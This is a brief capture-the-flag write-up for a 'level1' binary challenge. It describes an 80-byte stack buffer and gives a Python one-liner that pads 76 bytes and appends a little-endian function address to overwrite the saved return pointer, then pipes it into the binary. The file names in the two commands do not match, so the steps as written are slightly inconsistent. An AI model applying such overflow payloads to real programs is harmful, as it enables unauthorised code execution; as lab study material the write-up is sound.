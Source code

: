 # LEVEL1

## EXPLANATIONS

### BINARY BEHAVIOR
Allocated 80 bytes in esp
### EXPLOI STRATEGY
We can do a Buffer overflow by replacing last 4 byes by the address of run : 
Ox08048444   
to overwrite sEIP
### RUN COMMAND

```
python -c "print('A' * 76 + '\x08\x04\x84\x44'[::-1])" > /tmp/exploit_string 
cat /tmp/string - | ./level1
```
